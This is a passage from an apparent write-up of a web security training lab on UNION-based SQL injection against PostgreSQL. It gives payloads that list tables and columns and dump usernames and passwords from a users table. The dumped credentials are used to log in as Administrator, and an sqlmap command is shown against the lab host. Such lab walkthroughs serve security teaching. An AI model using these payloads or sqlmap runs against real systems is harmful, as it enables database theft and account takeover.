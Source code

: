 ![Databases_names](https://user-images.githubusercontent.com/101610095/220293746-3d8f24d7-c8d7-431d-b929-373cc9976154.png)

#### Fetching the tables for the current database:
* Listing tables syntax for ```PostgreSQL``` DBMS: 
```SQL
SELECT table_name FROM information_schema.tables
```
* <font color="white"><srong>Inject the vulnerable parameter with the following payload:</font></strong>: ```'+UNION+SELECT+NULL,table_name+FROM+information_schema.tables--```<br/>

![Tables](https://user-images.githubusercontent.com/101610095/220296661-edb318ff-5ac2-49c6-824a-9c2cd2d7187b.png)<br/>
* This payload will return all the tables in the current database, and since we know the name of the table is ```users```, let's add a filter to our payload using the ```LIKE``` clause:<br/>
* Payload: ```'+UNION+SELECT+NULL,table_name+FROM+information_schema.tables+WHERE+table_name+LIKE+'users'--```<br/>

![users_table](https://user-images.githubusercontent.com/101610095/220298815-0b415f32-7c27-4ce1-941a-c4e23147fff6.png)

#### Fetching columns for the table users in the current database:
* Listing columns syntax for ```PostgreSQL``` DBMS: 
```SQL
SELECT column_name FROM information_schema.columns WHERE table_name='TableName'
```
* <font color="white"><srong>Inject the vulnerable parameter with the following payload:</font></strong>: ```'+UNION+SELECT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name='users'--```<br/>

![Columns](https://user-images.githubusercontent.com/101610095/220299713-b3e5ad20-5d70-4be1-a89d-f67746a8ec8e.png)

#### Dumping data from users table:
* We can retrieve the content of ```users``` table by sending the following payload: ```'+UNION+SELECT+username,password+FROM+users--``` <br/>

![Dump](https://user-images.githubusercontent.com/101610095/220300804-b80049a3-c05f-4310-8dd1-9e1deca52305.png)

#### Solving the Lab: 
* Now that we have dumped the credentials, we can go to ```/login``` and login as the ```Administrator``` user and solve the lab !!
![Login](https://user-images.githubusercontent.com/101610095/220303361-b14f6ed2-b4b9-432a-941c-24db7a428184.png)

### Automated:
#### SQLmap:

##### Fetching Databases names:
* Command:  
```bash
sqlmap --proxy=http://127.0.0.1:8080 -u 'https://0aa8007d033d30a9c0f2d25500e700ca.web-security-academy.net/filter?category=*' -p category --technique=U --threads=5 --level=4 --risk=3 --dbs --batch
```
* Options: <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --proxy=http://127.0.0.1:8080 : Using BurpSuite proxy for debugging purposes <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; -u : Target URL <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; -p : Testable parameter <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --technique=U : SQL Injection technique to use. Here i'm using the UNION technique <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --threads : Maximum number of concurrent HTTP requests (default 1) <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --level : Level of test to perform (5 is MAX) <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --risk : Risk of test to perform (3 is MAX) <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --dbs : Enumerate databases (schema) names <br/>